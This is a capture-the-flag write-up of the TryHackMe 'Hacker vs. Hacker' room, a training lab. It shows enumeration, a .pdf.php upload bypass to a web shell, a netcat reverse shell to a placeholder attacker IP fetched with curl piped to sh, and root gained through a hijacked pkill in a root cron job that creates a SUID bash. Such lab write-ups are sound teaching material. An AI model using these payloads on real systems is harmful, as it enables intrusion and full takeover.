 ```yaml
---
layout: post
title: TryHackMe/Easy/Hacker-vs-Hacker
abbrlink: a2dff1a66d3540a89caf97a136e1bc19
tags:
  - file upload bypass
  - web
  - linux
  - enumeration
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - Hacker vs. Hacker
date: 1719864268599
updated: 1719928456957
---
```


<https://tryhackme.com/r/room/hackervshacker>

# Scenario

The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?

# Enumeration

## \[+] 10.10.16.139 - hacker.thm

We will add the target IP address and a domain name to our `/etc/hosts` file. Using `sudo sh -c`, executes the entire command as a subshell as `root` where we will then use `echo` to create a new line with `\n` followed by our target IP and the domain name we give it.

```sh
sudo sh -c 'echo "\n10.10.16.139 hacker.thm" >> /etc/hosts'
```

Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.16.139
```

First I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online which helps find other hosts that block ICMP packets:

```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 80 - HTTP

### \[-] hacker.thm

![d96a2aa72901c0ff9fa7dcc9e7be3497.png](/resources/39ca7e048e9a4f77b9bcb5160f40be6d.png)

Not much to do here, so we'll do some directory/file fuzzing using [feroxbuster](https://github.com/epi052/feroxbuster) with this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-medium-directories.txt):

```sh
feroxbuster -u http://hacker.thm/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x json,txt,js,xml -s 200,301,302,403 -o p-80-www-ferox.txt
```

After some time we'll find a page that a hacker would also find interesting:

![50119cc208f034241f13f41d6cbaf622.png](/resources/623164825fec432b8dd52457aa810ba2.png)

### \[-] hacker.thm/upload.php

When we visit this page, we find a note left by the hacker:

```sh
curl -vvv http://hacker.thm/upload.php
```

![5aa459518294677f81f889cdbf9ef238.png](/resources/07d6bb5e20b3422fb34c1be950040e4d.png)

The hacker is pointing out the method used to filter the file upload function that the developer wrote. In the highlighted line, the code is only looking to see if the filename has "`.pdf`" after it and if it does, the file will be uploaded.

From past experience, in this situation we would try to upload a [PHP web shell](https://github.com/JohnTroony/php-webshells) where we bypass the file upload filter by changing the filename from something like `shell.php` to `shell.pdf.php`.

Checking back to the note the hacker left, we will see that the files go to the `cvs/` directory. Let's see if we will find anything if we visit `hacker.thm/cvs/shell.pdf.php`:

```sh
curl -vvv http://hacker.thm/cvs/shell.pdf.php
```

![6ff3486731520141529ca650aa23a62d.png](/resources/4eff5a0cedc549b5843f3c2d91453c4c.png)

Typically, the way we would interact with a web shell like this is to send commands via the `cmd` parameter. We can try this by testing the `id` command and request the following URL:

```sh
curl -vvv http://hacker.thm/cvs/shell.pdf.php?cmd=id
```

![d7703f2414ed9d60249ccf423c734589.png](/resources/7c67ec2f55294cfd9cd2a75935c63f79.png)

# Initial Foothold

### \[-] www-data\@b2r

From here, we will first need to create a bash script with the reverse shell command:

```sh
#!/usr/bin/env bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```

Save it as `shell.sh` then host it using Python:

```sh
python3 -m http.server 8888
```

Next, start a [Netcat](https://linux.die.net/man/1/nc) listener:

```sh
nc -nvlp 4444
```

The command we will send to the web shell will download our bash script, pipe it to bash to run the script and we should get a connection back to our Netcat listener. The command needs to be URL encoded so we can use [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(true\)\&input=Y3VybCA8QVRUQUNLRVJfSVA%2BOjg4ODgvc2hlbGwuc2ggfCBzaA) to encode it:

```plaintext
curl <ATTACKER_IP>:8888/shell.sh | sh
```

The entire curl command will look something like this:

```sh
curl -vvv http://hacker.thm/cvs/shell.pdf.php?cmd=curl%20%3CATTACKER%5FIP%3E%3A8888%2Fshell%2Esh%20%7C%20sh
```

After sending the command we should get a connection back on our listener:

![8c8c45f7948ffa82591e63f88d863256.png](/resources/7ccfb0ffa73f40de8dc766eb39d6e02f.png)

We can find the user flag in `/home/lachlan/user.txt`:

```
cd /home/lachlan
ls -lah
cat user.txt
```

![8f60a345ca7bad9c481cbd548992e447.png](/resources/38c9fd065c974d05b4a230587aedfcc7.png)

# Privilege Escalation

### \[-] lachlan\@b2r

Another interesting file in `/home/lachlan/` is the `.bash_history` file, which is usually cleared out. This file has a history of all the commands that were ran in the bash shell. We can just `cat` the contents to find the password for the user `lachlan`:

```sh
cat .bash_history
```

![952190641cddba60b991a2adc7356039.png](/resources/83d8c0ae3a034fa7b7ee26054ac9bb6c.png)

Now we can use the [su](https://linux.die.net/man/1/su) command and enter the password when prompted:

```sh
su lachlan
```

![34ab496da3de6babfd876792e6994cd9.png](/resources/6583fd67becd4afcac7976fdcaf4847a.png)

### \[-] root\@b2r

From here, I tried uploading `socat` static binary to get a stable shell, but a few seconds after connecting, I was disconnected with the message "nope":

![7b02117ee2eb5cd35c9889745b64acce.png](/resources/13a8e0af713b4f5facb64ff1c107e7d6.png)

So, I went back to the connection I already had open and ran `ps aux` to see the currently running processes where we will find a task that is killing the connection to our reverse shell:

![e74998aedb88596feaadd129a7f0bc51.png](/resources/d25df21f28f84aa092e41ff2df7db812.png)

The task is being ran by the user `root` and it also is running a binary without the full file path, `pkill`. Since the file path for `pkill` binary is not specificed, we can create our own binary with the same name, but in the directory of the script. Since our binary is closest in the hierarchy, it will be called first.

We will have to create a one-line command that we can copy and paste as soon as we connect so that the scheduled task will create a copy of the bash shell and set the [SUID bit](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit) so we can run it while keeping root privileges.

We will create our own `pkill` in the `bin` directory using `echo` with the command to create our SUID bash shell:

```sh
echo "cp /bin/bash /tmp/bash && chmod 4755 /tmp/bash" > bin/pkill; chmod +x bin/pkill
```

Let's start by connecting via SSH, but before pressing the `Enter` key when sending the password, we will copy the above command to our clipboard so that when we do press the `Enter` key, we can paste in the command and send it right after:

```ssh
ssh lachlan@$RHOSTS
```

After sending the command, the console will still echo "nope", but if we check the directory using `ls`, we will find our copy of bash with the SUID bit set:

![47418f42d55c1af73898f180e6987db3.png](/resources/9b0286d4979a4c2189763cad12bf9492.png)

When we run this copy of bash with the `-p` flag enabled, we will have our effective UID set to `root`:

![004358c9e638884fe49e9ce03958c117.png](/resources/c5c8983d601b4833b274e78b20725cfc.png)

We can find the root flag in `/root/root.txt`:

```sh
cd root
ls -lah
cat root.txt
```

![188c28f79579abcbe0d0a504891504db.png](/resources/75b1f59a890543a6b88d19eca9d25c91.png)
